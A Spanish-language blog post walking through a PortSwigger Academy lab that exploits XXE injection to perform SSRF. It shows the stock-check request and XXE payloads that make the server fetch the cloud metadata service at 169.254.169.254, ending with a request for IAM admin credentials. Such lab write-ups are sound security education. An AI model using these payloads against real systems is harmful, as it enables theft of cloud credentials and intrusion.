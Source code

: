+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 2"
date = "2022-01-23"
description = "Lab: Exploiting XXE to perform SSRF attacks"
tags = [
    "xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting XXE to perform SSRF attacks

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar un ataque de SSRF valiendose de la inyeccion XXE valiendose de la configuracion debil del analizador.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo la peticion que se hace lo primero que haremos sera recuperar el archivo que contiene la key del EC2 esto a traves de declarar la DTD para luego referenciar la entidad a nuestro archivo que queremos leer. Que es con la siguiente sintaxis. Luego se referencia en cualquiera del valor que se imprimira o recibira de la web que sera `productId` referenciando con `&xxe;`. Si no realizamos este proceso no podremos recuperar los datos. ESta se encuentra en la ip `http://169.254.169.254/`.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/path/to/key"> ]>
```

Ahora enviamos la peticion y como podemos notar cada una de las peticiones nos ira dando las rutas para el siguiente path y asi recuperar la key.

![Peticion 1 para solicitar la key a un equipo interno](request2.png)
![Peticion 2 para solicitar la key a un equipo interno](request3.png)
![Peticion 3 para solicitar la key a un equipo interno](request4.png)
![Peticion 4 para solicitar la key a un equipo interno](request5.png)
![Peticion 5 para solicitar la key a un equipo interno](request6.png)


Finalmente encontramos la ultima peticion en la cual se encuentra la key

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion 6 para solicitar la key a un equipo interno](request7.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)